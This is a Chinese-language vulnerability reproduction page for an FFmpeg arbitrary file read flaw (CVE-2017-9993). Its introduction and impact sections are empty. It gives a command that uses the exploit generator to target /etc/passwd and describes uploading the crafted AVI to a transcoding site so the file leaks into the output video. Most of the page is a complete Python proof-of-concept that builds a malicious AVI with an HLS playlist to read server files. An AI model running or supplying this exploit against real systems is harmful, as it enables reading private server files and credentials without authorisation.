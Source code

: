 Ffmpeg 任意文件读取漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

使用exp生成payload

    ./gen_xbin_avi.py file:///etc/passwd exp.avi

生成exp.avi，在`http://www.0-sec.org:8080/`上传。后端将会将你上传的视频用ffmpeg转码后显示，转码时因为ffmpeg的任意文件读取漏洞，可将文件信息读取到视频中：

![](./resource/(CVE-2017-9993)Ffmpeg任意文件读取漏洞/media/rId24.png)

### poc

    #!/usr/bin/env python3
    import struct
    import argparse
    import random
    import string

    AVI_HEADER = b"RIFF\x00\x00\x00\x00AVI LIST\x14\x01\x00\x00hdrlavih8\x00\x00\x00@\x9c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00}\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\xe0\x00\x00\x00\xa0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00LISTt\x00\x00\x00strlstrh8\x00\x00\x00txts\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x19\x00\x00\x00\x00\x00\x00\x00}\x00\x00\x00\x86\x03\x00\x00\x10'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0\x00\xa0\x00strf(\x00\x00\x00(\x00\x00\x00\xe0\x00\x00\x00\xa0\x00\x00\x00\x01\x00\x18\x00XVID\x00H\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00LIST    movi"

    ECHO_TEMPLATE = """### echoing {needed!r}
    #EXT-X-KEY: METHOD=AES-128, URI=/dev/zero, IV=0x{iv}
    #EXTINF:1,
    #EXT-X-BYTERANGE: 16
    /dev/zero
    #EXT-X-KEY: METHOD=NONE
    """

    # AES.new('\x00'*16).decrypt('\x00'*16)
    GAMMA = b'\x14\x0f\x0f\x10\x11\xb5"=yXw\x17\xff\xd9\xec:'

    FULL_PLAYLIST = """#EXTM3U
    #EXT-X-MEDIA-SEQUENCE:0
    {content}
    #### random string to prevent caching: {rand}
    #EXT-X-ENDLIST"""

    EXTERNAL_REFERENCE_PLAYLIST = """
    ####  External reference: reading {size} bytes from {filename} (offset {offset})
    #EXTINF:1,
    #EXT-X-BYTERANGE: {size}@{offset}
    {filename}
    """

    XBIN_HEADER = b'XBIN\x1A\x20\x00\x0f\x00\x10\x04\x01\x00\x00\x00\x00'


    def echo_block(block):
        assert len(block) == 16
        iv = ''.join(map('{:02x}'.format, [x ^ y for (x, y) in zip(block, GAMMA)]))
        return ECHO_TEMPLATE.format(needed=block, iv=iv)


    def gen_xbin_sync():
        seq = []
        for i in range(60):
            if i % 2:
                seq.append(0)
            else:
                seq.append(128 + 64 - i - 1)
        for i in range(4, 0, -1):
            seq.append(128 + i - 1)
        seq.append(0)
        seq.append(0)
        for i in range(12, 0, -1):
            seq.append(128 + i - 1)
        seq.append(0)
        seq.append(0)
        return seq


    def test_xbin_sync(seq):
        for start_ind in range(64):
            path = [start_ind]
            cur_ind = start_ind
            while cur_ind < len(seq):
                if seq[cur_ind] == 0:
                    cur_ind += 3
                else:
                    assert seq[cur_ind] & (64 + 128) == 128
                    cur_ind += (seq[cur_ind] & 63) + 3
                path.append(cur_ind)
            assert cur_ind == len(seq), "problem for path {}".format(path)


    def echo_seq(s):
        assert len(s) % 16 == 0
        res = []
        for i in range(0, len(s), 16):
            res.append(echo_block(s[i:i + 16]))
        return ''.join(res)


    test_xbin_sync(gen_xbin_sync())

    SYNC = echo_seq(gen_xbin_sync())


    def make_playlist_avi(playlist, fake_packets=1000, fake_packet_len=3):
        content = b'GAB2\x00\x02\x00' + b'\x00' * 10 + playlist.encode('ascii')
        packet = b'00tx' + struct.pack('<I', len(content)) + content
        dcpkt = b'00dc' + struct.pack('<I',
                                      fake_packet_len) + b'\x00' * fake_packet_len
        return AVI_HEADER + packet + dcpkt * fake_packets


    def gen_xbin_packet_header(size):
        return bytes([0] * 9 + [1] + [0] * 4 + [128 + size - 1, 10])


    def gen_xbin_packet_playlist(filename, offset, packet_size):
        result = []
        while packet_size > 0:
            packet_size -= 16
            assert packet_size > 0
            part_size = min(packet_size, 64)
            packet_size -= part_size
            result.append(echo_block(gen_xbin_packet_header(part_size)))
            result.append(
                EXTERNAL_REFERENCE_PLAYLIST.format(
                    size=part_size,
                    offset=offset,
                    filename=filename))
            offset += part_size
        return ''.join(result), offset


    def gen_xbin_playlist(filename_to_read):
        pls = [echo_block(XBIN_HEADER)]
        next_delta = 5
        for max_offs, filename in (
                (5000, filename_to_read), (500, "file:///dev/zero")):
            offset = 0
            while offset < max_offs:
                for _ in range(10):
                    pls_part, new_offset = gen_xbin_packet_playlist(
                        filename, offset, 0xf0 - next_delta)
                    pls.append(pls_part)
                    next_delta = 0
                offset = new_offset
            pls.append(SYNC)
        return FULL_PLAYLIST.format(content=''.join(pls), rand=''.join(
            random.choice(string.ascii_lowercase) for i in range(30)))


    if __name__ == "__main__":
        parser = argparse.ArgumentParser('AVI+M3U+XBIN ffmpeg exploit generator')
        parser.add_argument(
            'filename',
            help='filename to be read from the server (prefix it with "file://")')
        parser.add_argument('output_avi', help='where to save the avi')
        args = parser.parse_args()
        assert '://' in args.filename, "ffmpeg needs explicit proto (forgot file://?)"
        content = gen_xbin_playlist(args.filename)
        avi = make_playlist_avi(content)
        output_name = args.output_avi

        with open(output_name, 'wb') as f:
            f.write(avi)

参考链接
--------

> https://vulhub.org/\#/environments/ffmpeg/phdays/

